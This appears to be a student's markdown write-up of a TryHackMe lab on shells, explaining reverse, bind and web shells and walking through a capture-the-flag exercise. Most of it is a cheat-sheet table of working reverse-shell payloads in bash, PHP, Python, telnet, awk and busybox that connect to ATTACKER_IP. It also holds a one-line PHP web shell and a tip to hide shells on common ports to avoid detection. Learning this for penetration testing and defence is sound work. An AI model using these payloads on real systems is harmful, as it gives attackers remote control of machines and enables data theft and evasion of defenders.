





# Shells Overview

---

A shell consists of software that provides user interaction with an operating system, most often through a command-line interface 
though graphical options exist depending on the target system. In cybersecurity contexts the term refers to the remote session an 
attacker obtains on a compromised machine to run commands and programs. This access supports remote execution of code on the target, 
privilege escalation from restricted initial rights, data exfiltration by locating and copying sensitive files, persistence via new 
user accounts or backdoor binaries for later re-entry, post-exploitation tasks such as malware deployment and evidence removal, and 
pivoting to reach additional systems across the network from the initial foothold.

Reverse shells, also known as connect-back shells, initiate outbound from the compromised system to the attacker's listener, which 
helps evade inbound firewall restrictions. The process starts by establishing a Netcat listener on the attacker's machine. The target 
then executes a payload that creates a named pipe for bidirectional communication, piping an interactive shell through Netcat to the 
specified attacker address and port. Upon successful connection the listener displays the incoming traffic and drops into an interactive
prompt on the target.

Bind shells operate in the opposite direction by having the target bind and listen on a local port for the attacker to connect in, 
which is useful when outbound connections are blocked though more prone to detection. The target runs a similar named-pipe command that
starts Netcat listening on all interfaces at a non-privileged port, after which the attacker connects directly using Netcat with 
appropriate flags to the target's address and port.

Alternative listeners extend basic Netcat functionality. Rlwrap adds readline-based editing and command history. Ncat, an improved 
version from the Nmap project available at https://nmap.org/ncat, supports SSL encryption for the listener. Socat enables flexible 
socket connections between hosts, creating a TCP listener and directing output to standard output with configurable verbosity.

Shell payloads consist of commands or scripts tailored to the target's installed interpreters for Linux systems to establish reverse 
or bind connections. Bash variants redirect streams over TCP devices or manipulate file descriptors for interactive sessions. PHP 
payloads open sockets then invoke execution functions such as exec, shell_exec, system, passthru or popen. Python implementations 
create sockets, duplicate descriptors and spawn bash via pty, with options using environment variables or compact one-liners. 
Additional payloads leverage telnet with temporary pipes, awk for built-in TCP handling or busybox netcat with an execute flag.

Web shells are scripts written in web-server-supported languages that execute commands through HTTP requests after being uploaded to a 
compromised server, often via unrestricted file upload or command injection flaws. A basic PHP example accepts a cmd GET parameter and 
runs it directly via system, allowing command execution by appending the parameter to the shell URL. Popular ready-made examples 
include the minimal p0wny-shell, the feature-rich b374k with file management and the comprehensive c99; additional variants are 
available at https://www.r57shell.net/index.php.

The practical exercise required starting the associated machine and allowing time for boot before accessing the landing page at 
<MACHINE_IP>:8080, the command-injection application at <MACHINE_IP>:8081 and the unrestricted-file-upload application at
<MACHINE_IP>:8082, either through the provided attack box split-screen or via VPN, to retrieve the flag.

This room outlined reverse shells, bind shells and web shells together with their value for penetration testing and defensive 
identification.

---

| Description | Code/Command |
|-------------|--------------|
| Netcat listener for receiving reverse shell | nc -lvnp 443 |
| Reverse shell payload using named pipe with Netcat and sh | rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| sh -i 2>&1 \| nc ATTACKER_IP ATTACKER_PORT >/tmp/f |
| Bind shell payload using named pipe with Netcat listening on target | rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| bash -i 2>&1 \| nc -l 0.0.0.0 8080 > /tmp/f |
| Netcat command from attacker to connect to bind shell | nc -nv TARGET_IP 8080 |
| Rlwrap wrapper for enhanced Netcat listener interaction | rlwrap nc -lvnp 443 |
| Ncat listener for reverse shell | ncat -lvnp 4444 |
| Ncat listener with SSL encryption enabled | ncat --ssl -lvnp 4444 |
| Socat command for TCP listener directing output to terminal | socat -d -d TCP-LISTEN:443 STDOUT |
| Normal Bash reverse shell payload | bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 |
| Bash read-line reverse shell payload | exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 \| while read line; do $line 2>&5 >&5; done |
| Bash reverse shell using file descriptor 196 | 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 |
| Bash reverse shell using file descriptor 5 | bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5 |
| PHP reverse shell using exec function | php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' |
| PHP reverse shell using shell_exec function | php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");' |
| PHP reverse shell using system function | php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' |
| PHP reverse shell using passthru function | php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");' |
| PHP reverse shell using popen function | php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' |
| Python reverse shell exporting environment variables (prefix with python -c) | export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' |
| Python reverse shell using subprocess module (prefix with python -c) | PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' |
| Short Python reverse shell (prefix with python -c) | PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")' |
| Telnet reverse shell payload using temporary named pipe | TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF \| sh 1>$TF |
| AWK reverse shell payload | awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" \|& s; s \|& getline c; if(c){ while ((c \|& getline) > 0) print $0 \|& s; close(c); } } while(c != "exit") close(s); }}' /dev/null |
| BusyBox reverse shell using Netcat with execute | busybox nc ATTACKER_IP 443 -e sh |
| Example PHP web shell script | <?php if (isset($_GET['cmd'])) { system($_GET['cmd']); } ?> |
| Example web shell command execution request | http://victim.com/uploads/shell.php?cmd=whoami |

---

### Key Takeaways
- Remote system control to execute commands or software on the target
- Privilege escalation from limited or restricted initial shell access
- Data exfiltration by exploring and copying sensitive files
- Persistence and maintenance by creating users, credentials or backdoor software
- Post-exploitation activities such as deploying malware, creating hidden accounts or deleting information
- Network pivoting to access other systems using the initial shell as entry point
- Start the vulnerable machine and allow up to 2 minutes for full boot
- Access the landing page hosted at <MACHINE_IP>:8080
- Exploit the command injection vulnerability on the application at <MACHINE_IP>:8081
- Exploit the unrestricted file upload vulnerability on the application at <MACHINE_IP>:8082
- Retrieve the flag in THM{} format using either the attack box split-screen or VPN connection
- use known ports used by other applications like 53, 80, 8080, 443, 139, or 445 to blend the reverse shell with legitimate traffic
  and avoid detection.
  
---

### Gallery 

  <table>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 1a:</strong> Bind Shell</td>
      <td align="center"><strong>Figure 1b:</strong> Pownyshell</td>
    </tr>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 2a:</strong> U3b374k Shell</td>
      <td align="center"><strong>Figure 2b:</strong> 4c99 Shell</td>
    </tr>
  </table>

  <table>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 3a:</strong> Target Website</td>
      <td align="center"><strong>Figure 3b:</strong> Unrestricted Upload Vulnerability</td>
    </tr>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 4a:</strong> Found A Flag</td>
      <td align="center"><strong>Figure 4b:</strong> Successfully Deployed Reverse Shell</td>
    </tr>
  </table>

---

